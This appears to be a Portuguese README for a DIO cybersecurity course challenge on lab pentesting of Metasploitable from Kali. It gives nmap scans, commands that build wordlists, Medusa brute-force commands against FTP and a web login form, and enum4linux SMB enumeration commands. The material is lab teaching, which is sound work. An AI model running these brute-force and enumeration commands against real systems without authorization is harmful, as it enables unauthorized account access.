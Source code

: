 # simulado_ataque
Desafio DIO - Cyber Security

Desenvolvi conhechimentos de ferramentas e códigos
Como realizar os pentestes utilizando o Kali e Metasploitable, utilizando as ferramentas:
-NMAP
  Comandos:
    nmap -sV -p 21,22,80 <ip_alvo>
    O que faz: Scanea as portas 21,22,80 e tenta mostrar quais as versões do serviço
    
-Criar wordlist
  echo -e "123\n5443\nmsfadmin >pass.txt
  echo -e "msfadmin\nuser\nadmin" >user.txt

-MEDUSA
  comando:
    medusa -h <ip_alvo> -U user.txt -P pass.txt -M ftp -t 6
    O que faz:
      -h: Host
      -U: lista de usuarios
      -P: lista de senha
      -M: Serviço
      -t: Threads
    * Na linha que retornar [SUCCESS] é quando a ferramenta consegue ter acesso ao alvo

-Meduza - Simulando combinações de usuário e senha em sites

1 - Criar uma lista
   Criação de Dicionários: Para um ataque de força bruta, você precisará de:
    Lista de Usuários (user.txt): Um arquivo de texto contendo possíveis nomes de usuário (ex: admin, user, root, msfadmin).
    Lista de Senhas (pass.txt): Um arquivo de texto contendo uma lista de senhas comuns ou esperadas (ex: password, 123456, admin, toor).
2 - Para iniciar o simulado de ataque deve utilizar o comando:
    medusa -h <ENDEREÇO_ALVO> -U <caminho_lista_usuario> -P <caminho_lista_pass> -M http \
    -m PAGE: ‘caminho_da_pagina’ \
    -m FORM: ‘username=^USER^&password=^PASS^&Login=Login’ \
    -m ‘FAIL=Login failed’ -t 6

*Verificar com as variáveis de requisição, exemplo utilizado foram username,password e Login.
  
-Enum4Linux - Enumeração de Serviços SMB/NFS
  Como Usar o Enum4Linux:
  O Enum4Linux é uma ferramenta baseada em linha de comando e geralmente já vem pré-instalada no Kali Linux.
  
  Abrir o Terminal no Kali Linux: Todos os comandos do Enum4Linux serão executados a partir do terminal.
  Identificar o Endereço IP do Alvo: Você precisará do endereço IP da máquina Metasploitable (ou qualquer outra máquina Linux com serviços SMB/NFS ativos) que você deseja enumerar.
  Comandos de Enumeração com Enum4Linux:
  Varredura Básica: Este comando tenta enumerar o máximo de informações possível com as opções padrão.enum4linux <IP_DO_ALVO>
  
  Exemplo: enum4linux 192.168.56.101
  
  Enumeração de Usuários: Para focar na enumeração de usuários.enum4linux -U <IP_DO_ALVO>
  Enumeração de Grupos: Para focar na enumeração de grupos.enum4linux -G <IP_DO_ALVO>
  Enumeração de Compartilhamentos: Para listar os compartilhamentos de rede.enum4linux -S <IP_DO_ALVO>
  Todas as Informações Detalhadas: Para uma enumeração mais exaustiva, combinando várias opções.enum4linux -a <IP_DO_ALVO>

